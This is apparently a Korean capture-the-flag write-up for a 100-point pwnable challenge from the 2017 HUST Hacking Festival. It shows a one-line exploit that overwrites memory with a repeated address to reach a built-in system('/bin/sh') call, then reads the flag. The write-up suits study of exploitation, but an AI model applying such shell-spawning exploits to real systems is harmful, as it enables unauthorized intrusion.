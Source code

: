 ## No.14 Pwnable Do It Your Heap Ex[100]

**점수:** 100

**분야:** Pwnable

**제목:** Do It Your Heap Ex

**Description:**

> I want you to analyze the heap.
> 
> nc 223.194.105.182 29001
> Download : https://goo.gl/qGdwj0

문제의 출제 의도는 UAF를 이용하라는 것으로 추정되나 실제 바이너리를 분석해보면 UAF를 쓰기도 전에 쉘을 딸 수 있다. 

바이너리 자체에 system(“/bin/sh”); 호출을 구현해놨기 때문에 한 줄로 익스플로잇이 가능하다. 

대회 당시 자료를 미처 준비하지 못해 로컬에서 공격한 기록을 남긴다.

![](./images/no14_1.png)

```
$ (python -c "print '\x80\x89\x04\x08' * 400"; cat) | ./challenge
 
                                (생략)
 
Hello! Welcome to 2017 HUST Hacking Festival.
 
This is a problem wtih heap exploits.
You should use "UAF" techniques.
 
We will allocate memory for the heap area.
 
First, Input anythings :
cat flag
THIS IS THE FLAG
```
